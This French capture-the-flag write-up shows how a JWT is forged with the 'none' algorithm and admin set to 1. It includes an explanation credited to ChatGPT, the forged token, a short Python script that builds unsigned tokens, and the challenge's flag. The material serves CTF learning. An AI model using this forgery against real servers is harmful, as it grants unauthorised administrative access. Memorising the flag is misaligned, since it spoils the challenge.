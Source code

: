 ![amulette_akawa_3](../../../../attachements/amulette_akawa_3.png)

## Enoncé

>Tu avances plus profondément dans la grotte, là où réside la Chouette Nocturne, symbole de sagesse et d'illusion. Elle pose une énigme encore plus complexe :* "L'apparence peut être trompeuse. Ce que tu crois être solide peut ne pas l'être."*
>
>Devant toi se dresse une tablette de pierre sur laquelle est inscrite une nouvelle formule magique sous forme de symbole chiffré. Cette fois, tu sens que la protection semble plus solide, mais la chouette murmure : "Ce que l'on te dit être indestructible peut être réduit à néant si tu sais où chercher."
>
>Tu réalises qu'il te suffit de modifier subtilement l'algorithme de la formule pour la rendre inoffensive, ouvrant ainsi un passage vers la suite.

## Résolution

Idem que pour [L'Amulette d'Akawa 2 - La Bénédiction de l'Anguille d'Or](L'Amulette%20d'Akawa%202%20-%20La%20Bénédiction%20de%20l'Anguille%20d'Or.md) sauf que cette fois ci on refait un jwt on lui indiquant qu’il n’y a pas d’algorithme à vérifier.

D’après chatgpt : 

Pour exploiter un JWT en utilisant l'algorithme **"none"**, tu dois comprendre comment le JWT est vérifié côté serveur. Si le serveur n'est pas correctement configuré, il pourrait accepter un jeton avec une signature vide et ignorer la vérification. Voici comment cette attaque fonctionne et les étapes pour tenter de l'exploiter.

### Contexte : JWT avec algorithme "none"

Un JWT a trois parties :
1. **Header** : contient l'algorithme de signature, par exemple `"alg": "HS256"`.
2. **Payload** : contient les données.
3. **Signature** : protège contre la modification des deux premières parties.

Si le serveur accepte un JWT où l'algorithme est `"none"`, cela signifie que le serveur ne vérifie **pas** la signature, ce qui rend possible la modification du jeton sans recalculer la signature.

### Étapes pour exploiter en changeant l'algorithme à "none"

#### 1. Décoder le JWT actuel

Décode d'abord le **header** et le **payload** de ton JWT en **base64**.

Ton JWT actuel :
```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJhZG1pbiI6MCwiZXhwIjoxNzI4MzM2ODczfQ.FgJBalNV4fO0a78hjh1iJqBznKjAtmQ8O1Ob3eXuls8
```

Décodage du **header** :
```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

Décodage du **payload** :
```json
{
  "admin": 0,
  "exp": 1728336873
}
```

#### 2. Modifier le header pour utiliser l'algorithme "none"

Remplace l'algorithme `"HS256"` par `"none"` dans le **header** :

```json
{
  "alg": "none",
  "typ": "JWT"
}
```

#### 3. Modifier le payload

Modifie le **payload** pour donner à l'utilisateur des droits administratifs en changeant `"admin": 0` à `"admin": 1` :

```json
{
  "admin": 1,
  "exp": 1728336873
}
```

#### 4. Recombiner le JWT sans signature

- **Header encodé en base64** : `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0`
- **Payload encodé en base64** : `eyJhZG1pbiI6MSwiZXhwIjoxNzI4MzM2ODczfQ`

Tu recombines ces deux parties pour former un JWT **sans signature** :

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJhZG1pbiI6MSwiZXhwIjoxNzI4MzM2ODczfQ.
```

Note que la troisième partie (la signature) est vide après le dernier point.

#### 5. Envoyer le nouveau JWT

Remplace l'ancien JWT dans la requête par le nouveau jeton avec l'algorithme `"none"`. Si le serveur est mal configuré et accepte ce JWT, il pourrait te donner un accès administrateur sans vérifier la signature.

### Pourquoi cette attaque fonctionne

Lorsque tu changes l'algorithme à `"none"`, tu indiques au serveur qu'aucune signature n'est nécessaire pour ce JWT. Si le serveur n'a pas été correctement configuré pour rejeter ce type de jeton, il peut accepter le JWT sans signature et traiter les données du **payload** telles qu'elles sont, y compris le fait que `admin = 1`.

### Problèmes potentiels

- Si le serveur est correctement configuré, il rejettera un jeton avec `"alg": "none"`.
- Certains serveurs peuvent avoir des protections contre cette attaque, notamment en vérifiant que tous les jetons doivent avoir une signature valide.

### Outils pour tester

Tu peux utiliser des outils comme [jwt.io](https://jwt.io) pour facilement décoder, modifier et tester des jetons JWT.

Si tu veux tester l'exploitation de JWT avec Python, tu peux utiliser des bibliothèques comme **PyJWT** pour construire un tel JWT.

### Exemple Python pour créer un JWT avec "none"

```python
import base64
import json

header = {
    "alg": "none",
    "typ": "JWT"
}
payload = {
    "admin": 1,
    "exp": 1728336873
}

# Encodage en base64 sans padding
def base64_encode(data):
    return base64.urlsafe_b64encode(json.dumps(data).encode()).decode().rstrip('=')

header_encoded = base64_encode(header)
payload_encoded = base64_encode(payload)

# Le JWT avec "none" comme algorithme n'a pas de signature
jwt = f"{header_encoded}.{payload_encoded}."

print(jwt)
```

Cela te donnera un JWT avec `"alg": "none"` que tu peux tester si le serveur est vulnérable.


On envoi dans le jwt suivant au serveur : `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJhZG1pbiI6MSwiZXhwIjoxNzI4MzM2ODczfQ.
` et ça passe.

>[!question]- Spoiler du flag
> OPENNC{JW7_N3eDs_41g0_Ch3cK1nG_70_b3_s4f3}

